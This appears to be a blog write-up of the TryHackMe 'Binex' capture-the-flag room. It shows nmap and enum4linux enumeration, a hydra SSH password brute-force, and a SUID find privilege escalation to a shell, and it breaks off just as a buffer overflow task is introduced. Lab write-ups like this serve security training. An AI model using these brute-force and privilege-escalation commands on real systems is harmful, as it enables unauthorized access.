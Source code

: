 
# Binex
This is a guest post by HiSch with notes from a challenge we did @[tryhackme](https://tryhackme.com) called [Binex](https://tryhackme.com/room/Binex).

## 0. Preparation

The IP Adress of the victim machine is put into the /etc/hosts file, so you dont have to bother remembering its ip adress:

```sh
~# vi /etc/hosts
xx.xx.xx.xx binex.thm
```

## 1. Task 1: Gain initial access

The first thing - like most of the time is enumeration the machine:

```sh
~# nmap -A binex.thm

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 3f:36:de:da:2f:c3:b7:78:6f:a9:25:d6:41:dd:54:69 (RSA)
|   256 d0:78:23:ee:f3:71:58:ae:e9:57:14:17:bb:e3:6a:ae (ECDSA)
|_  256 4c:de:f1:49:df:21:4f:32:ca:e6:8e:bc:6a:96:53:e5 (EdDSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

We can see the SMB / SAMBA port 445 is open. The hint says that the RID range 1000-1003 is of special intrest. It also mentions, that the longest username has a weak password - propably for bruteforcing.
enum4linux fortunately has an option for that:

```sh
~# enum4linux -R 1000-1003 binex.thm
(..)
S-1-22-1-1002 Unix User\********* (Local User)
(..)
```

Now that we know the username we can try to bruteforce the password:

```sh
~# hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://binex.thm
(..)
[22][ssh] host: binex.thm   login: <username>   password: <password>
(..)
```

You can now log on via ssh with this username/password.

```sh
~# ssh <username>@binex.thm 
```

## 2. Task 2: SUID :: Binary 1

According to the title and the question we have to use a suid file to gain access to the user des.

```sh
~# find / -perm /4000 -exec ls -ldb {} \; 2>/dev/null
(..)
-rwsr-sr-x 1 des des 238080 Nov  5  2017 /usr/bin/find
(..)
```

Apparently the /usr/bin/find is owned by des and has the SUID bit set. So lets search [GTFOBins](https://gtfobins.github.io/gtfobins/find/) for a quick solution:

```sh
~# /usr/bin/find . -exec /bin/sh -p \; -quit
$ whoami
des
$ cat /home/des/flag.txt
Good job on exploiting the SUID file. Never assign +s to any system executable files. Remember, Check gtfobins.

You flag is THM{<FLAG>}

login crdential (In case you need it)
username: des
password: <password>

```

## 3. Task 3: Buffer Overflow :: Binary 2

This is where it gets intresting. There is an excecutable file with suid bit set in the home directory of des called ~./bof. When you execute bof you are asked to enter a string and this string is echoed back to the stdout. Conveniently the source code is in the same directory (~./bof64.c).

## ...to be continued
